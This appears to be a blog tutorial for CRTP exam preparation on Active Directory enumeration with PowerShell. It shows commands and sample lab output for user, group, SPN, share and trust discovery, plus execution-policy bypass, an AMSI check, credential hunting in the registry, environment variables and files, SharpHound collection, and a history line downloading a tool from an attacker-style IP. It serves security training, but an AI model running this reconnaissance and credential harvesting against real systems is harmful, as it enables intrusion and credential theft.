



> {: .prompt-warning }
> **STRICTLY EDUCATIONAL & AUTHORIZED LAB USE ONLY:** This guide is designed exclusively for Certified Red Team Professional (CRTP) preparation, authorized penetration testing, and defensive security research. All techniques, commands, and concepts must only be executed in isolated lab environments with explicit written permission. Unauthorized enumeration or testing against production systems violates computer fraud laws globally. This blog stops at enumeration. Exploitation, ACL abuse, lateral movement, and credential dumping will be covered in a separate guide.

---

## Part 1: Active Directory Fundamentals & Architecture

### What is Active Directory?
Active Directory Domain Services (AD DS) is Microsoft's enterprise-grade directory and identity management system. It functions as a centralized database that stores information about network objects (users, computers, groups, printers, applications) and provides authentication, authorization, policy enforcement, and resource management. AD uses a hierarchical, multi-master replication model secured by Kerberos (primary) and NTLM (fallback) authentication protocols.

### How Active Directory Works
1. **Directory Database**: Stored in `NTDS.dit` on Domain Controllers. Contains all object attributes, security descriptors, and replication metadata.
2. **Authentication Flow**: Users authenticate via Kerberos tickets (TGT → TGS) or NTLM challenge-response. DCs validate credentials against the SAM/NTDS database.
3. **Policy Enforcement**: Group Policy Objects (GPOs) linked to OUs/domains enforce security settings, software deployment, and restrictions.
4. **Replication**: Multi-master replication ensures all DCs maintain synchronized directory data using USN (Update Sequence Numbers) and invocation IDs.
5. **Name Resolution**: Integrated DNS resolves domain controllers, services, and trust relationships. SRV records locate DCs and GCs.

### Core AD Concepts & Definitions

| Term | Definition | CRTP Relevance |
|------|------------|----------------|
| **Forest** | Top-level security boundary. Contains one or more domains sharing a common schema, configuration, and global catalog. | Trusts don't cross forest boundaries by default. Compromising one forest doesn't automatically compromise another. |
| **Domain** | Logical grouping of objects under a single namespace (e.g., `corp.local`). Managed by Domain Controllers (DCs). | Primary attack surface. Contains users, groups, computers, and policies. |
| **Tree** | Hierarchy of domains sharing a contiguous DNS namespace (e.g., `corp.local`, `eu.corp.local`). | Helps understand DNS resolution and trust paths. |
| **Organizational Unit (OU)** | Container within a domain used to organize objects and apply Group Policy Objects (GPOs). | GPOs linked to OUs enforce security settings, software deployment, and restrictions. |
| **Domain Controller (DC)** | Server running AD DS. Authenticates users, stores directory database (NTDS.dit), and enforces policies. | Primary target for enumeration. Holds all domain secrets. |
| **Global Catalog (GC)** | Distributed data repository containing a partial replica of all objects in the forest. Enables fast searches. | Used for cross-domain queries and user logon validation. |
| **Trust** | Relationship allowing authentication/authorization between domains or forests. | One-way, two-way, transitive, or non-transitive. Critical for lateral movement paths. |
| **Schema** | Defines object classes and attributes in AD. Extended during Exchange/Azure AD Connect installs. | Schema modifications can introduce new attack surfaces. |
| **Kerberos** | Ticket-based authentication protocol using symmetric cryptography. Default in AD. | Foundation for TGT/TGS, SPNs, Kerberoasting, and delegation attacks. |
| **NTLM** | Challenge-response authentication protocol. Legacy fallback. | Used when Kerberos fails. Vulnerable to relay and pass-the-hash. |

### AD Hierarchy Architecture


### Kerberos Authentication Flow


---

## Part 2: PowerShell Module Management & Environment Setup

### Understanding PowerShell Modules
Modules are packages containing cmdlets, functions, variables, and aliases. They extend PowerShell's capabilities without modifying the core engine.

**List Loaded Modules:**
```powershell
Get-Module
```
**Output:**
```text
ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type...}
```

**List Available Modules:**
```powershell
Get-Module -ListAvailable | Select-Object Name, Version, Path | Format-Table -AutoSize
```
**Output:**
```text
Name                     Version Path
----                     ------- ----
ActiveDirectory          1.0.0.0 C:\Windows\system32\WindowsPowerShell\v1.0\Modules\ActiveDirectory\ActiveDirectory.psd1
DnsClient                1.0.0.0 C:\Windows\system32\WindowsPowerShell\v1.0\Modules\DnsClient\DnsClient.psd1
NetSecurity              1.0.0.0 C:\Windows\system32\WindowsPowerShell\v1.0\Modules\NetSecurity\NetSecurity.psd1
```

**Import a Module:**
```powershell
Import-Module ActiveDirectory
```
**Output:**
```text
(no output if successful)
```

**Get Commands from a Module:**
```powershell
Get-Command -Module ActiveDirectory | Select-Object Name, CommandType | Format-Table -AutoSize
```
**Output:**
```text
Name                          CommandType
----                          -----------
Add-ADComputer                Cmdlet
Add-ADDomainController        Cmdlet
Add-ADFineGrainedPasswordPolicySubject Cmdlet
Get-ADUser                    Cmdlet
Get-ADGroup                   Cmdlet
Get-ADComputer                Cmdlet
Get-ADDomain                  Cmdlet
...
```

---

## Part 3: Execution Policy & Security Control Verification

### Execution Policy Management
Execution policy controls script execution. It is a safety feature, not a security boundary.

**Check Current Policy:**
```powershell
Get-ExecutionPolicy -List
```
**Output:**
```text
        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    Restricted
```

**Bypass for Current Session (Lab Use):**
```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
```
**Output:**
```text
(no output)
```

**Verify Bypass:**
```powershell
Get-ExecutionPolicy -Scope Process
```
**Output:**
```text
Bypass
```

### Security Control Verification (Lab Environment Only)
**Check Windows Defender Status:**
```powershell
Get-MpComputerStatus | Select-Object AntivirusEnabled, AntispywareEnabled, RealTimeProtectionEnabled
```
**Output:**
```text
AntivirusEnabled AntispywareEnabled RealTimeProtectionEnabled
---------------- ------------------ -------------------------
            True               True                      True
```

**Check Firewall Status:**
```powershell
Get-NetFirewallProfile | Select-Object Name, Enabled
```
**Output:**
```text
Name    Enabled
----    -------
Domain     True
Private    True
Public     True
```

**Check AMSI Status:**
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').GetValue($null)
```
**Output:**
```text
False
```
*(Note: `False` means AMSI is active. In lab environments, instructors may provide approved bypass methods for testing. Never use these in production.)*

---

## Part 4: Native Windows Enumeration (No Modules)

### User & Group Enumeration
```powershell
net user
```
**Output:**
```text
User accounts for \\DC01

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
krbtgt                   jdoe                     asmith
svc_backup               The command completed successfully.
```

```powershell
net user jdoe /domain
```
**Output:**
```text
User name                    jdoe
Full Name                    John Doe
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/15/2024 9:30:15 AM
Password expires             3/28/2024 9:30:15 AM
Password changeable          2/16/2024 9:30:15 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/20/2024 8:15:22 AM

Logon hours allowed          All

Local Group Memberships      *Users
Global Group memberships     *Domain Users         *IT_Support
The command completed successfully.
```

```powershell
net group "Domain Admins" /domain
```
**Output:**
```text
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            asmith
The command completed successfully.
```

### System & Session Enumeration
```powershell
whoami /all
```
**Output:**
```text
USER INFORMATION
----------------
User Name           SID
=================== =============================================
corp\jdoe           S-1-5-21-1234567890-1234567890-1234567890-1105

GROUP INFORMATION
-----------------
Group Name                                  Type             SID
=========================================== ================ =============================================
Everyone                                    Well-known group S-1-1-0
BUILTIN\Users                               Alias            S-1-5-32-545
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554
NT AUTHORITY\INTERACTIVE                    Well-known group S-1-5-4
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11
NT AUTHORITY\This Organization              Well-known group S-1-5-15
CORP\Domain Users                           Group            S-1-5-21-1234567890-1234567890-1234567890-513
CORP\IT_Support                             Group            S-1-5-21-1234567890-1234567890-1234567890-1106
Mandatory Label\Medium Mandatory Level      Label            S-1-16-8192

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

```powershell
systeminfo | Select-String "Host Name|OS Name|OS Version|Domain|Logon Server"
```
**Output:**
```text
Host Name:                 DC01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
Domain:                    CORP
Logon Server:              \\DC01
```

```powershell
qwinsta
```
**Output:**
```text
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>console           jdoe                      1  Active
 services                                   0  Disc
 rdp-tcp#0          admin                   2  Active
```

---

## Part 5: User & Group Enumeration (PowerView/ADModule)

### PowerView User Enumeration
```powershell
Get-DomainUser | Select-Object samaccountname, description, lastlogondate, passwordlastset | Format-Table -AutoSize
```
**Output:**
```text
samaccountname description                          lastlogondate         passwordlastset
-------------- -----------                          -------------         ---------------
Administrator  Built-in account for administering... 2/20/2024 10:15:22 AM 1/10/2024 8:00:00 AM
jdoe           Junior IT technician                 2/20/2024 9:30:15 AM  2/15/2024 9:30:15 AM
asmith         Senior Systems Administrator         2/19/2024 4:22:10 PM  1/20/2024 11:15:30 AM
svc_backup     Service account for Veeam backups    2/18/2024 2:10:05 AM  12/01/2023 6:00:00 PM
krbtgt         Key Distribution Center Service...   1/15/2023 12:00:00 AM 1/15/2023 12:00:00 AM
```

### ADModule User Enumeration
```powershell
Get-ADUser -Filter * -Properties Description, LastLogonDate, PasswordLastSet | Select-Object SamAccountName, Description, LastLogonDate, PasswordLastSet | Format-Table -AutoSize
```
**Output:**
```text
SamAccountName Description                          LastLogonDate         PasswordLastSet
-------------- -----------                          -------------         ---------------
Administrator  Built-in account for administering... 2/20/2024 10:15:22 AM 1/10/2024 8:00:00 AM
jdoe           Junior IT technician                 2/20/2024 9:30:15 AM  2/15/2024 9:30:15 AM
asmith         Senior Systems Administrator         2/19/2024 4:22:10 PM  1/20/2024 11:15:30 AM
svc_backup     Service account for Veeam backups    2/18/2024 2:10:05 AM  12/01/2023 6:00:00 PM
krbtgt         Key Distribution Center Service...   1/15/2023 12:00:00 AM 1/15/2023 12:00:00 AM
```

### Group Enumeration
```powershell
Get-DomainGroup | Select-Object samaccountname, membercount, description | Format-Table -AutoSize
```
**Output:**
```text
samaccountname       membercount description
--------------       ----------- -----------
Domain Admins        2           Designated administrators of the domain
Enterprise Admins    1           Designated administrators of the enterprise
Schema Admins        1           Designated administrators of the schema
Backup Operators     1           Members can back up and restore all files
IT_Support           2           IT helpdesk staff with local admin on workstations
Server Operators     0           Members can administer domain controllers
```

---

## Part 6: Computer & Server Enumeration

### PowerView Computer Enumeration
```powershell
Get-DomainComputer | Select-Object dnshostname, operatingsystem, lastlogondate | Format-Table -AutoSize
```
**Output:**
```text
dnshostname          operatingsystem                  lastlogondate
-----------          ---------------                  -------------
DC01.corp.local      Windows Server 2019 Standard     2/20/2024 10:15:22 AM
FILE01.corp.local    Windows Server 2019 Standard     2/20/2024 9:45:10 AM
WEB01.corp.local     Windows Server 2022 Datacenter   2/19/2024 11:30:05 PM
WS-JDOE.corp.local   Windows 11 Pro                   2/20/2024 8:30:12 AM
WS-ASMITH.corp.local Windows 11 Enterprise            2/20/2024 9:12:44 AM
```

### ADModule Computer Enumeration
```powershell
Get-ADComputer -Filter * -Properties OperatingSystem, LastLogonDate | Select-Object Name, OperatingSystem, LastLogonDate | Format-Table -AutoSize
```
**Output:**
```text
Name           OperatingSystem                  LastLogonDate
----           ---------------                  -------------
DC01           Windows Server 2019 Standard     2/20/2024 10:15:22 AM
FILE01         Windows Server 2019 Standard     2/20/2024 9:45:10 AM
WEB01          Windows Server 2022 Datacenter   2/19/2024 11:30:05 PM
WS-JDOE        Windows 11 Pro                   2/20/2024 8:30:12 AM
WS-ASMITH      Windows 11 Enterprise            2/20/2024 9:12:44 AM
```

### Filter by OS Version
```powershell
Get-DomainComputer -OperatingSystem "*Server 2019*" | Select-Object dnshostname
```
**Output:**
```text
dnshostname
-----------
DC01.corp.local
FILE01.corp.local
```

---

## Part 7: Organizational Units & Group Policy Enumeration

### OU Enumeration
```powershell
Get-DomainOU | Select-Object distinguishedname, description | Format-Table -AutoSize
```
**Output:**
```text
distinguishedname                          description
-----------------                          -----------
OU=IT,DC=corp,DC=local                     Information Technology Department
OU=Finance,DC=corp,DC=local                Finance & Accounting
OU=ServiceAccounts,DC=corp,DC=local        Non-interactive service accounts
OU=Servers,DC=corp,DC=local                Domain-joined servers
OU=Workstations,DC=corp,DC=local           Employee desktops & laptops
```

### GPO Enumeration
```powershell
Get-DomainGPO | Select-Object displayname, gpcfileSysPath, whenCreated | Format-Table -AutoSize
```
**Output:**
```text
displayname                     gpcfileSysPath                          whenCreated
-----------                     --------------                          -----------
Default Domain Policy           \\corp.local\SYSVOL\corp.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9} 1/10/2023 8:00:00 AM
Disable LM Authentication       \\corp.local\SYSVOL\corp.local\Policies\{A1B2C3D4-E5F6-7890-ABCD-EF1234567890} 2/01/2024 10:30:15 AM
Workstation Lockout Policy      \\corp.local\SYSVOL\corp.local\Policies\{B2C3D4E5-F6A7-8901-BCDE-F12345678901} 2/05/2024 2:15:30 PM
```

### GPO Links & Enforcement
```powershell
Get-DomainGPOLocalGroup | Select-Object GPODisplayName, GroupName, Members | Format-Table -AutoSize
```
**Output:**
```text
GPODisplayName          GroupName        Members
--------------          ---------        -------
Workstation Lockout Policy Administrators  CORP\IT_Support
Default Domain Policy   Remote Desktop Users CORP\Domain Users
```

---

## Part 8: Trust & Forest Enumeration

### Domain Trust Enumeration
```powershell
Get-DomainTrust | Select-Object SourceName, TargetName, TrustType, TrustDirection | Format-Table -AutoSize
```
**Output:**
```text
SourceName     TargetName       TrustType TrustDirection
----------     ----------       --------- --------------
corp.local     eu.corp.local    ParentChild Bidirectional
corp.local     partner.com      External   Inbound
```

### Forest Information
```powershell
Get-Domain | Select-Object Forest, DomainControllers, DomainMode, Name
```
**Output:**
```text
Forest                  : corp.local
DomainControllers       : {DC01.corp.local}
DomainMode              : Windows2016Domain
Name                    : corp.local
```

### Global Catalog Queries
```powershell
Get-DomainController -GlobalCatalog | Select-Object HostName, Domain, Forest | Format-Table -AutoSize
```
**Output:**
```text
HostName           Domain     Forest
--------           ------     ------
DC01.corp.local    corp.local corp.local
```

---

## Part 9: Share & SMB Enumeration

### PowerView Share Finder
```powershell
Invoke-ShareFinder -CheckShareAccess | Select-Object Name, Remark | Format-Table -AutoSize
```
**Output:**
```text
Name                 Remark
----                 ------
\\DC01.corp.local\ADMIN$           Remote Admin
\\DC01.corp.local\C$               Default share
\\DC01.corp.local\IPC$             Remote IPC
\\DC01.corp.local\NETLOGON         Logon server share
\\DC01.corp.local\SYSVOL           Logon server share
\\FILE01.corp.local\ADMIN$         Remote Admin
\\FILE01.corp.local\C$             Default share
\\FILE01.corp.local\IPC$           Remote IPC
\\FILE01.corp.local\Public         Company shared files
\\FILE01.corp.local\Backups        Weekly server backups
\\WEB01.corp.local\ADMIN$          Remote Admin
\\WEB01.corp.local\C$              Default share
\\WEB01.corp.local\IPC$            Remote IPC
\\WEB01.corp.local\wwwroot         IIS web content
```

### Native SMB Share Enumeration
```powershell
Get-SmbShare | Select-Object Name, Path, Description | Format-Table -AutoSize
```
**Output:**
```text
Name      Path                          Description
----      ----                          -----------
ADMIN$    C:\Windows                    Remote Admin
C$        C:\                           Default share
IPC$                                    Remote IPC
NETLOGON  C:\Windows\SYSVOL\sysvol      Logon server share
Public    C:\Shares\Public              Company shared files
Backups   C:\Shares\Backups             Weekly server backups
SYSVOL    C:\Windows\SYSVOL\sysvol      Logon server share
```

---

## Part 10: Local Admin & Privilege Enumeration

### Find Local Admin Access
```powershell
Find-LocalAdminAccess -Verbose | Select-String "Current user has local admin access"
```
**Output:**
```text
VERBOSE: [Find-LocalAdminAccess] Current user has local admin access on:
VERBOSE: [Find-LocalAdminAccess] WS-JDOE.corp.local
VERBOSE: [Find-LocalAdminAccess] FILE01.corp.local
```

### Privilege Analysis
```powershell
whoami /priv | Select-String "Enabled"
```
**Output:**
```text
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Token Group Analysis
```powershell
whoami /groups | Select-String "Group"
```
**Output:**
```text
Group Name                                  Type             SID
=========================================== ================ =============================================
Everyone                                    Well-known group S-1-1-0
BUILTIN\Users                               Alias            S-1-5-32-545
CORP\Domain Users                           Group            S-1-5-21-1234567890-1234567890-1234567890-513
CORP\IT_Support                             Group            S-1-5-21-1234567890-1234567890-1234567890-1106
```

---

## Part 11: Password Policy & Account Settings

### Domain Password Policy
```powershell
Get-DomainPolicy | Select-Object -ExpandProperty SystemAccess
```
**Output:**
```text
MinimumPasswordAge         : 0
MaximumPasswordAge         : 42
MinimumPasswordLength      : 7
PasswordComplexity         : 1
PasswordHistorySize        : 24
LockoutBadCount            : 5
ResetLockoutCount          : 30
LockoutDuration            : 30
```

### Fine-Grained Password Policies
```powershell
Get-ADFineGrainedPasswordPolicy -Filter * | Select-Object Name, MinPasswordLength, PasswordHistoryCount, LockoutThreshold | Format-Table -AutoSize
```
**Output:**
```text
Name               MinPasswordLength PasswordHistoryCount LockoutThreshold
----               ----------------- -------------------- ----------------
ServiceAccountPolicy 16                24                   10
AdminPolicy        14                24                   5
```

### Account Lockout Policy
```powershell
Get-ADDefaultDomainPasswordPolicy | Select-Object LockoutDuration, LockoutObservationWindow, LockoutThreshold
```
**Output:**
```text
LockoutDuration LockoutObservationWindow LockoutThreshold
--------------- ------------------------ ----------------
00:30:00        00:30:00                 5
```

---

## Part 12: Service Accounts & SPN Enumeration

### SPN Enumeration (Kerberoasting Prep)
```powershell
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname, lastlogondate | Format-Table -AutoSize
```
**Output:**
```text
samaccountname serviceprincipalname                  lastlogondate
-------------- --------------------                  -------------
svc_sql        MSSQLSvc/DB01.corp.local:1433         2/18/2024 2:10:05 AM
svc_exchange   exchangeMDB/MAIL01.corp.local         2/17/2024 11:30:00 PM
svc_iis        HTTP/WEB01.corp.local                 2/19/2024 8:15:22 AM
```

### ADModule SPN Enumeration
```powershell
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName, LastLogonDate | Select-Object SamAccountName, ServicePrincipalName, LastLogonDate | Format-Table -AutoSize
```
**Output:**
```text
SamAccountName ServicePrincipalName                  LastLogonDate
-------------- --------------------                  -------------
svc_sql        {MSSQLSvc/DB01.corp.local:1433}       2/18/2024 2:10:05 AM
svc_exchange   {exchangeMDB/MAIL01.corp.local}       2/17/2024 11:30:00 PM
svc_iis        {HTTP/WEB01.corp.local}               2/19/2024 8:15:22 AM
```

### AS-REP Roasting Candidates
```powershell
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname, description | Format-Table -AutoSize
```
**Output:**
```text
samaccountname description
-------------- -----------
jdoe           Junior IT technician (Preauth disabled for legacy app)
svc_legacy     Legacy service account (Preauth disabled)
```

---

## Part 13: BloodHound & SharpHound Data Collection

### SharpHound Installation & Execution
```powershell
Invoke-WebRequest -Uri "https://github.com/BloodHoundAD/SharpHound/releases/latest/download/SharpHound.exe" -OutFile "C:\Temp\SharpHound.exe"
```
**Output:**
```text
(no output)
```

```powershell
cd C:\Temp
.\SharpHound.exe -c All -d CORP.LOCAL --ZipFileName CORP_Enumeration.zip
```
**Output:**
```text
Initializing SharpHound at 10:30:15 AM on 2/20/2024
Resolved Collection Methods: Group, LocalAdmin, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
Starting enumeration for domain CORP.LOCAL
[+] Enumerating domain objects...
[+] Enumerating group memberships...
[+] Enumerating local admin sessions...
[+] Enumerating logged on users...
[+] Enumerating trusts...
[+] Enumerating ACLs...
[+] Enumerating containers...
[+] Enumerating RDP permissions...
[+] Enumerating object properties...
[+] Enumerating DCOM permissions...
[+] Enumerating SPN targets...
[+] Enumerating PSRemote permissions...
[+] Finished enumeration in 00:02:14
[+] Compressing data to CORP_Enumeration.zip
[+] SharpHound finished. Output saved to C:\Temp\CORP_Enumeration.zip
```

### Collection Method Explanation
- `Group`: Group memberships & nested groups
- `LocalAdmin`: Local administrator group members
- `Session`: Active user sessions on computers
- `LoggedOn`: Currently logged-on users
- `Trusts`: Domain/forest trust relationships
- `ACL`: Access control lists on AD objects
- `Container`: OU/container structure
- `RDP`: Remote Desktop permissions
- `ObjectProps`: Object properties (description, email, etc.)
- `DCOM`: DCOM application permissions
- `SPNTargets`: Service Principal Name targets
- `PSRemote`: PowerShell remoting permissions

---

## Part 14: Registry & Credential Hunting

### Winlogon Auto-Logon Check
```powershell
Get-ChildItem -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -ErrorAction SilentlyContinue | Select-Object Name, Property
```
**Output:**
```text
Name                                                                 Property
----                                                                 --------
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon {AutoAdminLogon, DefaultDomainName, DefaultPassword, DefaultUserName...}
```

```powershell
(Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon").DefaultPassword
```
**Output:**
```text
P@ssw0rd123!
```

### Credential Manager
```powershell
cmdkey /list
```
**Output:**
```text
Currently stored credentials:

    Target: Domain:target=corp.local
    Type: Domain Password
    User: CORP\asmith
```

### LSA Secrets (Read-Only Check)
```powershell
Get-ChildItem -Path "HKLM:\SECURITY\Policy\Secrets" -ErrorAction SilentlyContinue | Select-Object Name
```
**Output:**
```text
Name
----
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\DPAPI_SYSTEM
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets\NL$KM
```

---

## Part 15: History, Logs & Environment Secrets

### PowerShell History
```powershell
Get-Content "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" | Select-Object -Last 20
```
**Output:**
```text
net user jdoe /domain
Get-ADUser -Identity jdoe -Properties *
Invoke-WebRequest -Uri http://10.10.14.5/tools.exe -OutFile C:\Temp\tools.exe
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
whoami /all
Get-SmbShare
```

### Environment Variables & Secrets
```powershell
Get-ChildItem Env: | Where-Object {$_.Name -like "*pass*" -or $_.Name -like "*key*" -or $_.Name -like "*secret*"} | Format-Table -AutoSize
```
**Output:**
```text
Name              Value
----              -----
DB_CONNECTION_STRING Server=SQL01;Database=AppDB;User=svc_app;Password=Str0ngP@ss!
API_KEY           sk-live-abc123def456ghi789
```

### File System Secret Hunting
```powershell
Get-ChildItem -Path C:\ -Include *.config,*.xml,*.kdbx,*.txt -Recurse -ErrorAction SilentlyContinue | Where-Object {$_.FullName -like "*pass*" -or $_.FullName -like "*cred*" -or $_.FullName -like "*secret*"} | Select-Object FullName, Length, LastWriteTime
```
**Output:**
```text
FullName                                      Length LastWriteTime
--------                                      ------ -------------
C:\inetpub\wwwroot\web.config                 2048   2/10/2024 2:15:30 PM
C:\ProgramData\VMware\VMware Tools\tools.conf 512    1/20/2024 8:00:00 AM
C:\Temp\credentials.txt.bak                   128    2/18/2024 11:30:05 AM
```

### Event Log Analysis (Security Events)
```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624} -MaxEvents 10 | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
**Output:**
```text
TimeCreated           Message
-----------           -------
2/20/2024 10:15:22 AM An account was successfully logged on...
2/20/2024 09:30:15 AM An account was successfully logged on...
2/19/2024 04:22:10 PM An account was successfully logged on...
```

---

## Part 16: Enumeration Methodology & Decision Flow



### Enumeration Checklist
- [ ] Verify domain membership & current privileges
- [ ] Enumerate users, groups, computers, OUs
- [ ] Identify privileged accounts (Domain Admins, Backup Operators, etc.)
- [ ] Map accessible shares & local admin paths
- [ ] Collect PowerShell history, registry secrets, credential manager
- [ ] Run SharpHound for attack path visualization
- [ ] Document all findings with timestamps & evidence
- [ ] **STOP AT ENUMERATION** (Exploitation/ACL/Lateral Movement in next blog)

---

## Conclusion & Next Steps

This guide covered the complete enumeration phase for CRTP preparation using PowerShell exclusively. You now understand:
- Active Directory architecture & core concepts
- PowerShell module management & execution policy
- Security control verification (lab-focused)
- Native `net` & system enumeration
- PowerView & ADModule deep dives with outputs
- SharpHound collection & BloodHound preparation
- Local Windows secret & share enumeration

**Next Blog Preview:** Exploitation, ACL Abuse, Lateral Movement, Rubeus, Kerberoasting, AS-REP Roasting, and Privilege Escalation paths. All techniques will include step-by-step commands, outputs, and defensive detection guidance.

> {: .prompt-tip }
> **CRTP Study Tip:** Enumeration is 70% of successful AD engagements. Master PowerView, ADModule, and SharpHound. Practice in isolated labs. Document everything. Understand why each command works, not just how to run it.

---

## References & Resources

- [Microsoft Learn: Active Directory Domain Services](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/)
- [PowerView Documentation](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
- [BloodHound & SharpHound](https://bloodhound.specterops.io/)
- [Microsoft ActiveDirectory Module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/)
- [CRTP Official Syllabus](https://www.alteredsecurity.com/crtp)
- [HackTricks: Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [PayloadsAllTheThings: Active Directory](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Active%20Directory%20Attack)
- [MITRE ATT&CK: Discovery Tactics](https://attack.mitre.org/tactics/TA0007/)

---


